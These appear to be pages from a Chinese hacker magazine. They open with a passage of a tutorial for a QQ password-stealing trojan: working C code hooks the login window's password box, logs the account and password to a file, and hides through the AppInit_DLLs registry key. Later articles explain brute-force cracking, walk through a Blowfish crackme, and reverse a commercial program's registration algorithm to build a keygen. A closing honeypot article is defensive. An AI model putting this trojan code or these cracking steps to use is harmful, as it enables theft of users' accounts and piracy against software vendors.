前面已经说过了，子类化只是为了在用户密码输入好后得到一个通知。但是当我再次试验时却又痛苦地发现，我登录 QQ 是在输完密码后回车确认的，而这时主窗体收到了 WM_COMMAND 消息，“登录”按钮却收不到 WM_LBUTTONDOWN 消息。不要试图拦截 WM_CHAR，因为回车键的消息是由对话框直接处理的，而不会发给对话框上的控件，思路一下子进了死胡同。就在我山穷水尽准备把 Hook 搬出来的时候，想到了 WM_DESTROY（还好，不用改题目了），因为 QQ 主窗体出来之前，它的登录窗口和注册向导窗口都是要销毁的，那么它们包括它们的所有子窗体都肯定能收到 WM_DESTROY 消息，而在这个时候进行密码记录可是再合适不过了，为了防止 Edit 控件提前销毁而使得其无法再接收 WM_GETTEXT 消息，我直接对密码框进行了子类化（你可能担心 QQ 号码框被提前销毁，但实际我测试时是不会的，你不放心的话也可以把两个都处理了，但那样的话每个密码就要多记录一次）。进一步地，我又发现对注册向导窗体也可以使用这种方法，这样一来 QQ 登录和注册窗体就可以同等对待了，看了后面的密码记录机制你就会更清楚，现在连它们的区分处理都可以去掉，嗯，真是山穷水尽疑无路，柳暗花明又一村。

getQQEditH 是用来获得相关 Edit 句柄的函数；我后面会给出。在这里你就知道它会返回指定窗体的子窗体中具有 ES_PASSWORD（星号显示）属性的 Edit 控件的句柄，没有或多于一个都返回 NULL，当以 0 为参数时就是没有 ES_PASSWORD 属性的（ID 窗口）。然后用 GetWindowLong 判断是否已经进行了子类化，如果没有，就子类化，并把原窗体函数的地址保存到全局变量 plproc 中。这里的判断很重要，倒不是多次进行子类化有什么不妥，而是因为要用 plproc 保存原窗体函数的地址，如果第二次进行子类化，SetWindowLong 返回的就是 epassProc 的地址，使得 plproc 指向了 epassProc，这样不但丢失了原窗体函数的地址，而且一旦开始处理消息，就会进入死循环，而把 QQ 当掉。

```c
LRESULT CALLBACK epassProc(
    HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    if (uMsg == WM_DESTROY)
        savepass(GetParent(hwnd));
    return CallWindowProc((WNDPROC)plproc,
        hwnd, uMsg, wParam, lParam);
}
```

这个很简单吧，不用再说了。savepass 是保存密码的函数，参数是主窗体的句柄。plproc 就是子类化时保存的原窗体函数的地址，该值对于 QQ 登录窗体和 QQ 注册向导窗体是不同的，但因为两者不会同时出现，所以不会产生混乱。下面看看 getQQEditH。

```c
HWND htmp;
long lcount;
BOOL CALLBACK ecproc(HWND hwnd, LPARAM lParam)
{
    long wstyle;
    char szcb[256];
    GetClassName(hwnd, szcb, 256);
}
```

```c
if (stricmp(szcb, "Edit")) return TRUE;

wstyle = GetWindowLong(hwnd,
    GWL_STYLE);

if ((wstyle & ES_PASSWORD) == (long)lParam)
{
    htmp = hwnd;
    lcount++;
}
return TRUE;
}

HWND WINAPI getQQEditH(HWND hwnd,
long style)
{
    htmp = NULL;
    lcount = 0;
    EnumChildWindows(hwnd, ecproc,
        (LPARAM)style);
    if (lcount == 1) return htmp;
    else return NULL;
}
```

也是使用窗体枚举的方法，htmp、lcount 是全局变量，应该能看懂，就不多说了。再看看保存密码的函数 savepass：

```c
void WINAPI savepass(HWND hwnd)
{
    HWND hqqid, hqqpass;
    char szid[16], szpass[32];
    FILE *fp;

    hqqid = getQQEditH(hwnd, 0);
    hqqpass = getQQEditH(hwnd,
        ES_PASSWORD);
    if ((!hqqid) || (!hqqpass)) return; // 排除了错误记录的可能

    SendMessage(hqqid, WM_GETTEXT, 16,
        (LPARAM)szid);
    SendMessage(hqqpass, WM_GETTEXT, 32,
        (LPARAM)szpass);
    if (strlen(szpass) < 1) return; // 如果密码为空则不记录

    fp = fopen(svfilename, "a");
    fprintf(fp, "ID: %s----Pass: %s\n", szid,
        szpass);
```

```c
fclose(fp);
}
```

这里仅是保存到文件，如果要发送邮件，加上发送邮件的模块就可以了。

至此，木马的主体框架 DLL 部分已经做好了，但是想要它真正发挥作用，还得把它注入到目标进程才可以。因此要有一个守护进程，负责将 DLL 注入，可以用的几种方法嘛，在本文所附的文章“____”中介绍得很详细，所以我也就不再拾人牙慧，自己看好了，嘻嘻，别骂我啊。本来就是要讲思路，当然是越简单越好，我采用的是一个系统机制，仅对 Windows 2000、XP 和 2003 有效，也就是注册表项 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs`。

其中记录的 DLL 会被所有导入了 USER32.DLL 的进程加载（包括很多系统进程），所以要做的呢，就是把木马 DLL 拷贝到系统目录，再把它的名字写到 AppInit_DLLs 里去，呵呵，没有进程，不是自启动，如果要发邮件，防火墙记录到的也是 QQ 本身。实际上还可以做很多有意思的东西，比如对进程名进行记录，就成了程序监视器；对于不想被运行的进程，直接 ExitProcess 就 OK 了。当然，还是要有一个安装程序的，负责释放 DLL 和登记注册表，但不是本文的主要目的，所以，如果想做就自己做好了。我写的 DLL 是用 VC++6.0 编译的，在 Server 2003 上测试没有问题，可以放心地使用，测试用的 QQ 版本是 QQ2003 I。


> 需要说明的是，DLL 注入是有危险性的，很容易导致目标进程的异常退出。就是上面的方法，也不是对所有的程序都通用，有可能因为加载错误而导致 DLL 被卸载掉，作者就曾因为这个原因而使系统启动不了。所以写 DLL 的时候一定要万分小心：能简单的就简单，尤其是 DllMain 里千万不要有过多的操作，最好全部放到线程中完成。本文中提到的文章，我们已经收录入《九千里》相关文章中，按照文章名查找即可。

### 暴力破解的艺术

文／Tico

> icefire：首先声明，icefire 约作者写本文，并非意在教授非法活动，只是为了使大家对暴力破解的理论有所了解。暴力破解是一个非常重要的话题，当前有许多工具是利用暴力技术工作的，包括端口扫描、IP 扫描和电话线路监听扫描，以及我们非常感兴趣的密码破解；在实际工作中它有许多合法的应用，特别是在安全分析的一些工具中。

暴力破解简单地说，就是使用所有可能的字符或数字进行尝试，直到全部试完为止。比如说我们有一个密码，只允许使用两位数字，为获得这个密码我们须得尝试从 00～99 的所有数字（假设是十进制），直到我们找到那个正确数字为止。该数字的每一位都可以是 0～9 中的任何一个。

IP 扫描器会扫描一个特定子网（集）的所有节点，每个子网有 255 个节点，这就是暴力扫描子网。尝试所有组合所需耗费的时间由以下 3 个因素决定：数的进位制（或者 ASCII 码范围）、欲破解的字串长度和开始或结束所需的最小密码长度。这一规则对远程或本地破解均适用。显然也应考虑 CPU 速度和带宽，但上述 3 项不管机器快慢或网速如何，都是相对更重要的因素。

现在我们回到重点：暴力密码破解和 IP 扫描十分相似，只不过我们在这里是增加 ASCII 代码而不是节点号。还记得在 IP 扫描的时候，当最后一个字节达到 255 以后应当怎么做吗？我们会把邻接的字节加 1 并把最后一个字节归零，然后再一个一个加到 255，如此循环往复。检查是否达到 255 是决定什么时候将节点号重置为 1 的条件，这和密码破解差不多，但是因为密码中并未直接包含数字，所以处理方法会稍有不同。

假设我们要破解一个 3 字节密码，开始的时候我们应当把每个字节的 ASCII 码设为 32（小于 32 的都是控制字符），范围从 32 到 127，这是所有允许使用的字符（不包括扩展 ASCII 码），包括元符号（特殊字符）在内的键盘上的所有可能字符。

```c
for(x=0; x<=passlen-1; x++)
    pass[x]=32;
```

上面的代码赋值完成后，下面则显示了暴力破解循环是怎样进行的，括号中是 ASCII 码。


我们不仅改变了第 2 位，而且把 char 0 和 char 1 重新赋值为 32。这就是试验所有组合来进行密码破解所需要做的工作。接下来这些步骤还会重复下去。一旦一个字符达到 127，则其左边相邻的字符就加 1，再靠左的字符保持不变，而所有后面的字符都被设为 32！

简单地计算一下，为暴力破解上面的密码最多需要尝试 (127-32)^3=884736 次。当字串长度增加时，暴力破解所花费的时间会很长。可以想像若破解一个 12 字符的密码的情况，就是 (127-32)^12=540360087662636962890625 个可能的组合。这只是知道密码确实是 12 位的情况，如果密码最短是 8 位的，那么从 8 位一直尝试到 12 位，总共需要 (127-32)^8+(127-32)^9+(127-32)^10+(127-32)^11+(127-32)^12 次。

可以看出，在远程破解密码的时候，这个办法并不值得考虑（但是在一段时间内仍然还是一个现实的方法）。而对于本地密码，如果你知道密码方案并假定它是单向的（one way），则可以使用暴力破解（取决于你的 CPU 速度）。

还要记住一点，如果密码是以加密形式存储的，那么每次循环中产生的字符组合也需要先加密，然后尝试与暗文比较，以确定其是否和正确的密码相符。由于用于认证的密码通常是单向加密的，所以上述方法就是我们唯一可用的。尽管本文的例子中没有这样做，但还是演示了如何尝试每一个可能的组合及如何这样做的规则。你也可以通过减少字符区间，如从 32～127 减为只包含大写字符或小写字符的方法，来减少暴力破解的时间消耗，但我们这里不涉及这样做的方法，这样做仅仅是一个可能性。下面提供了一个我写的用于此例的暴力破解引擎。

暴力破解引擎详细代码已经收录入本期光盘杂志相关栏目中，文件名为“code.txt”，按照文章名查找即可。

不过还有几点需要大家注意：一定要记住尽可能地使用长一点的密码，密码中既要包含大写字母也要包含小写字母，还要有一些特殊字符。

### 编后

> 上文为大家提供了一个实现暴力破解的思路，大家可以仔细地研究一下源代码，搞清其原理，以后编写自己的暴力破解工具应该就不是什么难事了。不过，icefire 这里还要告诉大家一个小秘诀，可以使任何密码变得几乎不可能被破解：因为大多数破解者不会在暴力破解时包含 ASCII 码小于 32 的字符，当然在 login 提示符下面这样做非常麻烦，但是包含这样的字符就基本可以避开当前大多数暴力破解工具；虽然麻烦，但值得一试。

### 接 65 页

汇编指令计算出各种数值，虽然用到了浮点指令，但和没用没什么区别，所以在注册码编写的过程中自己只需要实现字串的提取和连接，剩下只是把上面的汇编代码照写一遍而已。

还有就是算法中有两处用到了码表，一个是 004CB27D 处提到的码表，另一个在 004CBB70 处。004CBB70 处的码表比较简单，用于产生真正的注册码，直接查看 EDX 指向的地址即可。004CB27D 处提到的码表则很大，从 532D5C 开始，到 533168 结束。你可以直接从内存中 COPY 整个码表，也可以用 LordPE 的 FLC 将其转成 offset，然后用 WinHex 从文件中拷贝。

整个算法虽然不难，但却冗长，需要 Cracker 相当的精力和耐心，个人认为是新手进阶练习的好软件。

## Cracker 初级教程之：blowfish 算法破解

文／重剑[Nuke Group]

Blowfish 加密算法是由 Bruce Schneier 于 1993 年 11 月发表的，目标是让人们可以用它来逐渐取代当时已经用了十几年并且已经被证明为“不太安全”的 DES 算法。Blowfish 采用了 Feistel 迭代结构（16 圈），64 比特的输入分组，可变长度的密钥（最长为 448 bits），最吸引人的是它有非常快的加解密速度以及完全免费的使用许可。

Blowfish 的快速是因为它在做加密和解密时主要利用了处理器的 XOR 和 ADD，在实际测试中它比 DES、IDEA 和 RC5 等都要快很多。它虽然不是某些机构所标榜的加密标准，但却获得了自由软件业人士的喜爱，比如 Linux 下的 SSH 应用里面就包含了 Blowfish 算法（包括最新的 2.6 内核）。

Blowfish 的具体算法可参见 http://www.schneier.com/ 上的说明和各种语言实现的源代码（C、Java 和 VB 等），这里推荐 Paul Kocher 于 1997 年用 C 实现的代码，虽然不是完整实现，但是非常简洁和流畅，适合分析和理解。

### blowfish 加密算法基本知识

blowfish 也是一个分组对称加密算法，Blowfish 加密可以分为下面的两部分。

- 1. **密钥预处理**

blowfish 算法的源密钥 pbox 和 sbox 是固定的。我们要加密一个信息，需要自己选择一个 key，用这个 key 对 pbox 和 sbox 进行变换，得到下一步信息加密所要用的 key_pbox 和 key_sbox。由于是在内存中产生大量的子密钥，在加密时直接引用即可，所以在加密时速度非常快。

- 2. **信息加密**

对于 64 位的明文，分为两部分进行 16 轮的置换等操作，然后输入 64 位的密文。解密过程和加密过程类似。

### 识别 blowfish 加密算法

由于 blowfish 有内置的初始化固定密钥，所以可以找它内置的字符串，如 pbox 的串 886A3F24D308A385 等；或者用 peid 的插件查看。据此可以判断有可能是用到 blowfish 密码算法，更精确的判断还必须懂得一点 blowfish 的加解密过程。

blowfish 算法的 P 盒和 S 盒非常有特点，它们是 π 的 16 进制小数位，比如 P 盒是：

```c
0x243f6a88L, 0x85a308d3L, 0x13198a2eL,
0x03707344L, 0xa4093822L, 0x299f31d0L,
0x082efa98L, 0xec4e6c89L, 0x452821e6L,
0x38d01377L, 0xbe5466cfL, 0x34e90c6cL,
0xc0ac29b7L, 0xc97c50ddL, 0x3f84d5b5L,
0xb5470917L, 0x9216d5d9L, 0x8979fb1bL
```

S 盒共有 4 个 256 字（32 bit）长的数组，可参考源代码。

#### Crackme 实例分析

本实例是 lordor[Nuke Group] 编写的 blowfish 算法的 Crackme 程序（已收录到光盘，文件是 crackme.exe）。这个 Crackme 另外使用了 DES 和 MD5，不是主要的，只是为了让大家熟悉这两种算法。这次我们重点来看一下其注册流程及 blowfish 相关的应用。

### SECRET OF CRACK

【栏目编辑】icefire／萧痕  icefire@hacker.com.cn

由于程序没有加壳，可以用 ollyDbg 调试器载入程序分析。由于程序的 check 按键是灰色的，看来程序对输入的注册码进行实时的运算并激活。那么就用 EnableWindow 函数名下断，可以定位下面的代码：

```asm
004027B2  PUSH crackme.0040A60C
; String2 = "4002"
004027B7  LEA EAX, DWORD PTR SS:[ESP+F4]
004027BE  PUSH EAX
004027C6  CALL DWORD PTR DS:[<&KERNEL32.lstrcmpA>]
004027CC  TEST EAX, EAX
004027CE  PUSH 3EB
; ControlID = 3EB (1003)
004027D3  PUSH EBP
; hWnd
004027D4  JNZ SHORT crackme.004027FD
004027D6  MOV ECX, DWORD PTR SS:[ESP+F8]
004027DD  MOV DWORD PTR DS:[40CDA8], ECX
004027E3  MOV DWORD PTR DS:[40CDAC], EBX
004027E9  CALL DWORD PTR DS:[<&USER32.GetDlgItem>]
004027EF  PUSH 1
; bEnable = TRUE
004027F1  PUSH EAX
; hWnd
004027F2  CALL DWORD PTR DS:[<&USER32.EnableWindow>]
```

可以发现程序对输入的注册码判断前面四位是否为 4002，如果是，则激活 check 按键。现在输入 4002654321，点击 check 按键，提示出错：注册码长度不够，这次用 MessageBoxA 下断，可以定位下面的代码：

```asm
0040282D  MOV EBP, DWORD PTR DS:[<&KERNEL32.lstrlenA>]
Case 3EB of switch 00402818
00402833  PUSH crackme.0040C794
; String = "654321"
00402838  CALL EBP
0040283A  CMP EAX, 10
; 这里比较是否为16位注册码
0040283D  JE SHORT crackme.00402856
0040283F  PUSH EBX
; Style
00402840  PUSH crackme.0040A604
; Title = "Error"
00402845  PUSH crackme.0040A5E4
; Text = "pls check the lenght of serial"
0040284A  PUSH EBX
; hOwner
0040284B  CALL DWORD PTR DS:[<&USER32.MessageBoxA>]
00402851  JMP crackme.00402A82
00402856  MOV EDX, DWORD PTR DS:[40C794]
0040285C  MOV EAX, DWORD PTR DS:[40C798]
```

从上面分析可以看到，程序取输入的第 5～20 位注册码，比较是否为 16 位，不是则出错。输入 20 位注册码接着分析注册流程，这次我们从出错的地方向上看：

```asm
00402A47  PUSH EBX
; Style
00402A48  PUSH crackme.0040A5B8
; Title = "message"
00402A4D  PUSH crackme.0040A598
; Text = "sorry, 注册不成功，请再试一次!"
```

```text
00402A52  PUSH EBX
hOwner
00402A53  CALL DWORD PTR DS:[<&USER32.MessageBoxA>] ; MessageBoxA
00402A59  INC DWORD PTR DS:[40CACC]
```

我们看一下从什么地方跳过来，分别为 402935、402943、402A1E。现在我们看一下上面的代码，可以对其进行动态分析，反编译后的分析代码详见光盘杂志相关栏目中的 crackme.txt 文件，按照文章名查找即可。

从上面的分析可以看到，由于 blowfish 解出来的东西要比较两次，所以 DES 的密钥应为第二次比较的值，即为 5397FB1(H)。

```text
（省略）
004029F4  LEA ECX,DWORD PTR SS:[ESP+84]
004029FB  CALL crackme.00401FF0
00402A00  LEA ECX,DWORD PTR SS:[ESP+DC]
00402A07  PUSH ECX ; Arg1
00402A08  CALL crackme.00401000
00402A0D  ADD ESP,4
00402A10  PUSH crackme.0040A5C0 ; String2 = "0eb912e161dcb0916d0d7eb28797d409"
00402A15  PUSH EAX ; String1
00402A16  CALL DWORD PTR DS:[<&KERNEL32.lstrcmpA>] ; lstrcmpA
00402A1C  TEST EAX,EAX
00402A1E  JNZ SHORT crackme.00402A3E
00402A20  PUSH EBX ; Style
00402A21  PUSH crackme.0040A5B8 ; Title = "message"
00402A26  LEA EDX,DWORD PTR SS:[ESP+30]
00402A2A  PUSH EDX ; Text
00402A2B  PUSH EBX
```

```text
hOwner
00402A2C  CALL DWORD PTR DS:[<&USER32.MessageBoxA>] ; MessageBoxA
```

上面的代码是用 DES 解密信息，再用 MD5 检验成功的信息的 md5 值；如相等则显示成功。

至此，已经分析完整个注册流程。如要注册成功，就要反推出注册码：除了前面 4 位为 4002 外，后面的 16 位要这样逆推，用机器码的前面 8 位及串 87654321（即为上面十六进制的 5397FB1(H)），用 blowfish 密钥 4002 进行加密，得到的密文即为后面 16 位注册码。如机器码 736525449 得到串 7365254487654321，用 blowfish 加密，得到 DF6E7EFA15774682，所以注册码为：4002DF6E7EFA15774682。

### blowfish 加密算法总结

blowfish 是一种对称的加密算法，一般是与公钥算法配合使用，主要用来加密程序运算的过程中用到的密钥。由于本 crackme 是为了学习 blowfish 算法，这个过程比较简单。实际使用可以对 pbox 及 sbox 作些变换，或者对加密算法作些变形，这样再插入到软件自己设计的算法中，往往会取得一定的算法强度，cracker 要写出注册机，真要花点时间好好学学密码算法。

### 使用 blowfish 加密算法的典型软件

现在使用 blowfish 加密算法的共享程序非常多，学习了本文所讲的方法后，可能很多读者都想找个实际的程序练手，不过需要声明的是：我们旨在提高国内加密解密的整体水平，不能用本文所讲的技术做触犯法律的事，否则，所带来的一切法律责任自负，与作者和本杂志社无关。

常见的采用 blowfish 加密算法的程序很多，比如共享软件 Visual Assist.NET、SWF Browser、亿特代理服务器简易版（版本 1.5 build 0626）。这些软件一般是把 blowfish 算法插入到自己定义的算法中，以防止别人写出注册机。对付这些软件比较简单的做法是爆破，不过完美一点的做法就是学习一下密码算法，写出注册机。

icefire：菜菜们在软件破解上获得初步的成绩后，往往都会有一种迫不及待地想要分析注册算法写注册机的冲动，而且难以克制，但一时又很难找到一个理想的发泄对象（软件）。别急，下面就为大家准备了一个好对象，相信可以一解燃眉之急。

### DigiPhoto Gallery v2.4 注册码计算


DigiPhoto Gallery 是一款将数码照片发布到网页上的工具，是我们本次操刀的对象，用于研究其注册算法。需要使用的破解工具有 ollydbg 和 DeDe 3.5。

```text
DWORD PTR SS:[EBP-14]  停住这里
```

你能看到 EDX 指向一个字串 “Mr.Hacker! Earn Money.email:ativapro@hotmail.com with hack info”，继续向下走，此处没什么可留意的，一直来到 004CC82C，进入这个 CALL：

#### 破解过程

首先运行 DeDe 反汇编该程序，反编译完成后，点击“过程”，在左边出现“单元名”，选中 `KeyRegister`，看右边的“事件”，找到 `_PROC_004CC758`（图 1）。

```text
004CC82C  E8 F3EEFFFF    CALL DigiGall
004CB724                ← 进入这个 CALL
```

再进入 004CB724，来到下面的代码处：


在弹出的反汇编窗口右栏是能够找到 `TfrmKeyRegister.editKey` 和 `TfrmKeyRegister.editEmail` 字样，就说明我们找对了，这就是计算处理注册码的 CALL。现在静态分析已经不能满足我们的需求了，开始动态分析。

```asm
004CB730  894D F4              MOV DWORD PTR SS:[EBP-C],ECX    ; 保存注册码
004CB733  8955 F8              MOV DWORD PTR SS:[EBP-8],EDX    ; 保存 email
004CB736  8945 FC              MOV DWORD PTR SS:[EBP-4],EAX
004CB739  8B45 F8              MOV EAX,DWORD PTR SS:[EBP-8]    ; 用户名给 eax
...
004CB764  E8 43000000          CALL DigiGall                   ; 关键 CALL，进入
004CB769  8B45 EC              MOV EAX,DWORD PTR SS:[EBP-14]   ; EAX 中是格式化后的真正注册码
...
004CB76C  8B55 F4              MOV EDX,DWORD PTR SS:[EBP-C]    ; 自己输入的伪注册码
004CB76E  E8 7094F3FF          CALL DigiGall
004CB774  75 04                JNZ SHORT DigiGall
004CB77A                      ; 判断是否相等
```

运行 ollydbg，加载 DigiGallery.exe，在 004CC758 处设断点。运行程序，输入 Email：eym@163.com 和注册码：12121212，点注册。程序中断在 004CC758，再向下走不了几步来到 004CC7F3 处，这里有作者给 Hacker 的一句话（哎，其实咱们是 Cracker）。

```asm
004CC7EE  E8 9DEEFFFF    CALL DigiGall
004CB690
004CC7F3  8D95 1CFFFFFF  LEA EDX
```

```asm
004CB776  C645 F3 01    MOV BYTE PTR SS:[EBP-D],1
004CB77A  33C0          XOR EAX,EAX
```

进入 004CB764 处的 CALL DigiCall，004CB7AC，这个 CALL 开始计算注册码。在它下一行 004CB769 处就是真正的注册码了，我们为了研究算法，先不管它。进入 004CB7AC，往下走到 004CB7DF：

```asm
004CB7DF  B9 3CB84C00    MOV ECX,DigiCall
004CB83C  ; ASCII "Thumbnail Maker"
004CB7E4  BA 54B84C00    MOV EDX,DigiCall
004CB854  ; ASCII "SoftSol"
004CB7E9  B8 64B84C00    MOV EAX,DigiCall
004CB864  ; ASCII "MCP"
; 下面这个 CALL 将把 EMail 和几个特定字符串连接起来，并计算出一个 8 位的数值。
004CB7EE  E8 71F9FFFF    CALL DigiCall
004CB164  ; 关键 CALL (1)
004CB7F3  6A 00          PUSH 0
004CB7F5  6A 00          PUSH 0
004CB7F7  8B45 F4        MOV EAX,DWORD PTR SS:[EBP-C]
004CB7FA  50             PUSH EAX
004CB7FB  33C9           XOR ECX,ECX
; ECX 置零（后面的计算需要）
004CB7FD  8B55 F0        MOV EDX,DWORD PTR SS:[EBP-10]
; 字串 8069fde1
004CB800  8B45 FC        MOV EAX,DWORD PTR SS:[EBP-4]
; 这个 CALL 将计算出最后的注册码
004CB803  E8 60000000    CALL DigiCall
004CB868  ; 关键 CALL (2)
```

进入 004CB164“CALL(1)”后，来到 004CB1DF 处，此时 EAX 指向连接好的字串 “MCPSoftSolThumbnail Makereym@163.com'Y-t!:A”。

```asm
004CB1DF  8B45 F0        MOV EAX,DWORD PTR SS:[EBP-10]
004CB1E2  E8 31000000    CALL DigiCall
004CB218  ; 进入这个 CALL
```

进入 CALL 004CB218，此处是把字串 “MCPSoftSolThumbnail Makereym@163.com'Y-t!:A” 通过特定的算法进行计算，得出结果为 “8069FDE1”，并将其转换成字符型，然后把其中的大写字母转换成小写字母，即 “8069fde1”。限于篇幅我们把分析放到后面，此处大家自己看一下就行了，算法比较简单，都是些加减运算，主要用到的就是 004CB247 处的字串长度，以及 532D5C 处的一个码表（最后我们将说一下这个码表）。

```asm
004CB244  8B45 FC        MOV EAX,DWORD PTR SS:[EBP-4]
; EAX 指向字串 MCPSoftSolThumbnail Makereym@163.com'Y-t!:A
004CB247  E8 4C98F3FF    CALL DigiCall
00404A98  ; 返回上面字串的长度 2B (43)
```

从码表中读取字符：

```asm
004CB27D  8B0485        MOV EAX,DWORD PTR DS:[EAX*4+532D5C]
; 532D5C 开始是一块用于该算法的码表
```

经过 004CB164 处的“CALL(1)”和 CALL 004CB218 计算得出了字串 8069fde1。然后我们进入 CALL 004CB868 处的关键 CALL(2) 进行最后的计算。从 004CB868 向下走，来到 004CB8EE，分析的时候大家多多注意堆栈：

详细反编译代码请见光盘杂志相关栏目中的 digiphoto.txt 文件，按照文章名查找即可。

最后的 004CBB9C 处 EDX 中就是真正的注册码，后面只是将其格式化成指定格式，即 DJNB-WCD7-AOMG。

### 注册机的实现

总的来说，算法并不难，可以看出作者对软件加密知之甚少，想通过繁复的计算来使 Cracker 望而却步的想法太天真了，限于篇幅下面只简单说说注册机的实现。

算法可分为两步，分别是在 004CB7EE 处的 CALL(1) 和 004CB803 处的 CALL(2)，通过上面的分析不难看出，算法只是把一些字串通过一些……

### 茶后小议

### 蜜罐技术

Socket。当你的网络面对黑客无端攻击的时候，当你正为保护自己的商业资料头疼的时候，我们应该如何防护呢？对于几百台计算机的管理与监控，你是否也感觉到束手无策？安全防范难？下面就向大家介绍一个很熟悉的话题：蜜罐。希望读者朋友可以从蜜罐中获取一些对网络安全的新认识。

文／黄锐

在最近的一些日子里，蜜罐技术有了巨大的发展。从免费的 Honeyd 和蜜网（Honeynets）再到商业的 KFSensor 等都是非常好的蜜罐。然而，就像大多数比较新的技术一样，蜜罐也存在许多问题，面临许多挑战。然后，我们在这里一起来讨论一下这些问题，并试着探讨如何解决它们。我们将要讨论的这 3 个问题是：识别蜜罐、溢出蜜罐和蜜罐的应用。前提有一个，就是你已经弄懂了蜜罐的概念。简单地说，蜜罐目的就在于主动吸引攻击者，然后记录下攻击者对计算机系统的一举一动。

用来攻击和识别蜜罐的一些工具和技术。其中的一个例子就是商业工具 Honeypot Hunter，它是用来侦测蜜罐的一种工具。

那么，我们能做什么呢？首先，要认识到无论什么类型的蜜罐，从最基本的 Back Officer Friendly 到最先进的蜜罐，最终都会被识破。如果你的对手有一定的黑客技巧和合适的工具，发现蜜罐只是早晚的事。可是我们的目的就是要让蜜罐不被过早地识破。和许多技术领域一样，如 IDS sensors，蜜罐也在同攻击者竞争。当一个新的蜜罐被放出来或有了升级的版本，攻击者总能找到一种方法识破和鉴别它们。随着一些新的侦测方法的发展，反侦测手段也被运用到了蜜罐中。接着攻击者又会研究出反反侦测的手段，如此不断循环。举个例子，远程识别较老版本的 Honeyd honeypot，你仅仅要发送一个 SYN 包，那个蜜罐就会返回一个没有参数的 SYN/ACK 包。然而，如果你用 Nmap 去扫描这个相同的蜜罐，那么它将会返回一些带参数的 SYN 包（这个现象在 Honeyd ver 0.7a 中已经修正）。

### 识别蜜罐

在过去的一段时间里，网络上出现了许多种不同的蜜罐（从低交互和高交互的），这些蜜罐各有各的作用（包括陷阱式的、侦测式的、反垃圾邮件式的、信息收集式的等等）。大部分蜜罐都有一个共同的特点——它们的价值在逐渐被外来入侵者不断地识破中不断地缩小。

试想一下，蜜罐一旦被识破，攻击者就会知道哪些系统是你的蜜罐虚假出来的，或者暴露一些潜在的危机。攻击者可以用错误的或虚假的信息喂饱你的蜜罐，这就是为什么要防止蜜罐被发现的原因，当然也有例外情况存在，如在阻止黑客方面。因为一些黑客组织可能不愿意蜜罐记录自己的行为，所以这样可以阻止部分的黑客进一步扫描。在有粘性蜜罐的情况下，在其上运行蜜罐侦测程序以模仿蠕虫的频繁扫描，从而保护了蜜罐，因而我们的网络很少受到蠕虫的威胁。很多时候，我们都是希望自己的蜜罐不被识破。随着蜜罐技术的广泛使用，我们已经看到了一些

- 1. 定一个标准来评估蜜罐的价值。你的蜜罐被识破之前，它还是能无知无晓地工作的。举个例子，假如你在内网上配置了一个蜜罐用来侦测非法的攻击行为（如有人在扫描共享），这个蜜罐作用就像是防盗自动警铃。攻击者在你的内网上扫描有安全缺陷机器的同时也被你的蜜罐捕捉到了。在这个事件中，即使蜜罐被识别出来了，它也已经完成了它的任务了。总的来说就是秘密地工作，侦测和警告危险的到来。虽然它被扫描器发现了，大部它也可以让你知道有来自内网的危机。对于其他的蜜罐，又有不同。举个例子，你用蜜网（honeypot）去收集信息。在这个事件中，你想让你的蜜罐日复一日、年复一年地工作且不被察觉是几乎不可能的。所以，你第一步就要评估蜜罐的被发现对你的影响，还要评估你的蜜罐多长时间内不会被识破。

- 2. 如果避免蜜罐被识破对你非常重要，那么你就要考虑一下用户化你的蜜罐了。我们可以去网上下载这方面的资料，当然攻击者也可以下载这些资料。攻击者下载一些蜜罐的试用版或可用的源代码，分析它们，找出识别蜜罐的方法。这有些像 Nmap 的远程指纹识别操作系统技术（每个 IP 堆栈都有自己唯一的特征）。对付这个的方法就是定制你的蜜罐，使它看起来不同于 Internet 上的任何一个蜜罐。你把蜜罐的行为更改得越多，它就越难被攻击者识别出来。举个例子，你正在使用的是 Honeyd Toolkit for Linux，但你又不想让它在默认的状态下运行，你就可以修改它的行为以适应你的系统环境。更多的高级用户则是要改它的源代码，从而改变包（packets）的大小。无论怎样，攻击者都将可能寻找到一种知名蜜罐的典型行为特征。如果你的蜜罐的行为和反应出乎攻击者的预料，那么你被识破的几率就会大大降低。

### 漏洞总论

任何由人编写的代码都有欠妥之处。这么多年来，在各种各样应用软件领域（如防火墙、浏览器、服务器软件），这已经是事实了，无论何时一个新软件的发布，我们总能看到关于 BUG 和 vulnerability（弱点）的报告。蜜罐也不例外。我们不得不作一个这样的假定：任何一个蜜罐的发布，无论是知名的还是不知名的，总会存在弱点。

对于低交互性的蜜罐，危害的范围有所限制，因为它只是模仿真实的服务，攻击者是不能用真实的服务溢出程序来溢出它，并获得管理员权限。然而，我们也要假设攻击者能够绕过受限的模拟环境，也要对此采取保护，这样才能保证蜜罐程序的安全。

对于 Win32 低交互性蜜罐（如 KFSensor），你要建立一个安全的操作系统，就必须打上所有补丁、关闭所有服务。你可能还要安上防火墙，只允许一个端口向内开放到监控蜜罐的计算机，其他所有端口都阻塞。甚至让防火墙阻塞（和警告）任何向外的连接，以此来保护欠妥的蜜罐程序。

对于 Unix 低交互性蜜罐，我们将采取进一步的措施。我们通常采用 CHROOT()，它能够有效地降低 Unix 系统进程被攻击的可能。

在 FreeBSD 上 JAIL() 可以有效地防止进程的越权。对低优先级的内核（KERNEL）的修补，像 Systrace（Process based Discretionary Access Control）或 Grsecurity（Process based Mandatory Access Control, Address Space Protection, etc），还有 SE Linux。它们被用来保护低交互性（low-interaction）蜜罐免受一些知道的和不知道的攻击。

对于高交互性（high-interaction）蜜罐而言，将会面临更大的挑战性。由于搭建蜜罐使用的是真实的操作系统和服务程序，因而风险更大。攻击者总是期望得到蜜罐的控制特权。

这就意味着必须对来自外部的数据采取管理措施，如采用 IPS（Intrusion Prevention System）或带宽限制。首先，使用分层控制，防止失败引起的风险。其次，采用人为监控。高交互性（high-interaction）蜜罐应当被密切地监视。在任何时候，有反常的行为（向外连接、上传文件、系统活动频繁、有新进程、有新的账号等等）都应有人监视。任何时候攻击者的行为超出了你的风险控制范围（如试图对外攻击），就要终止攻击者的连接、丢弃数据包、重定向连接等等。实时监控的优点就是你可以秘密识别攻击行为，而机器监控可能会忽略这一切。这也使你能够进一步掌握攻击者的行为和蜜罐的反应。

### 蜜罐技术的应用

蜜罐面临的最大的挑战之一是如何配置才能捕获内网和外网不安全行为，并且还要不被觉察和识别。

